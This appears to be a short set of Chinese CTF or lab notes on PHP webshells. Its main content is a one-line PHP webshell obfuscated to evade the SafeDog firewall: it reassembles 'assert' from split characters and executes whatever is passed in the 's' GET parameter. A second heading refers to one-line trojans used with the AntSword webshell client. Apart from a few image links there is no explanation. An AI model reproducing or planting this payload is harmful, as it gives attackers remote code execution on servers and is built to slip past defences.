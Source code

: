 

# 17//shell
提示：过狗一句话

```php
$poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s'])
```
![](图片/Pasted%20image%2020241126181514.png)
![](图片/Pasted%20image%2020241126181701.png)


# 18//eval
![](图片/Pasted%20image%2020241126190259.png)
一句话木马，蚁剑